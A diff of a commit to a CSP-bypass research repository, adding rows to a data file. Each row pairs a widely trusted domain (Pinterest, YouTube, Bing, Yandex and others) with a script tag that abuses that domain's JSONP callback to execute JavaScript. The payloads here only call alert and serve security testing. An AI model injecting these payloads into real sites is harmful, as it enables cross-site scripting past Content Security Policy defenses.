

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; addresses are those after the commit; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
New additions to data.tsv

```diff
--- a/data.tsv
+++ b/data.tsv
+row 13: api.pinterest.com | <script src="https://api.pinterest.com/v1/urls/count.json?callback=alert&url=x"></script>
+row 17: app-sjint.marketo.com | <script src="https://app-sjint.marketo.com/index.php/form/getKnownLead?callback=alert()"></script>
+row 55: suggestqueries-clients6.youtube.com | <script src="https://suggestqueries-clients6.youtube.com/complete/search?client=youtube&q=$query&callback=alert"></script>
+row 59: translate.yandex.net | <script src="https://translate.yandex.net/api/v1.5/tr.json/detect?callback=alert"></script>
+row 64: wb.amap.com | <script src="https://wb.amap.com/channel.php?callback=alert"></script>
+row 70: www.bing.com | <script src="https://www.bing.com/api/maps/mapcontrol?key=AlSfV3wSTlPFqxEdS97v1d1ZK25Qg4OxZerOAjFYQPZwtY4bQqhz4jDRou_kCmbJ&callback=alert"></script>
-B75: <script src="https://www.googleapis.com/blogger/v3/blogs/1/posts/1?callback=alert"></script>
+B75: <script src="https://www.googleapis.com/blogger/v3/blogs/1/posts/1?callback=alert()"></script>
```
Also changed, not shown: 3 added rows elsewhere in this file.
